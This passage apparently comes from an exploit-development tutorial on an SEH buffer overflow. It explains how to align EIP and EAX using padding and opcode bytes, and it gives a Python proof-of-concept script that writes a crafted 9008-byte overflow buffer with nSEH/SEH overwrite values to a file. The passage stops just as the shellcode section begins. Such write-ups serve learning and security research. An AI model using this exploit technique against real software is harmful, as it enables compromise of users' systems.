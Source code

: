 Nonetheless, this matter has an easy solution, just parsing some small padding until the EIP reaches the same address as EAX should be enough. Furthermore, this won't affect EAX, as it is a non-volatile register.

Current poc:

```term
import struct 

alignment = "\x57\x58\x54\x58" # PUSH EDI, POP EAX / PUSH ESP, POP EAX
alignment += "\x66\x05\x7C\x06" # add ax, 0x67c

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x10031779)

buffer = "A" * 9008 + nseh + seh + "\x41\x49" * 5 + alignment + "\x41\x49" * 11 + "\xff" * 200
f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```
After repeating the process, EIP and EAX seem to be aligned:

![](/assets/img/Alignments/8.png)

# Finally, shellcode

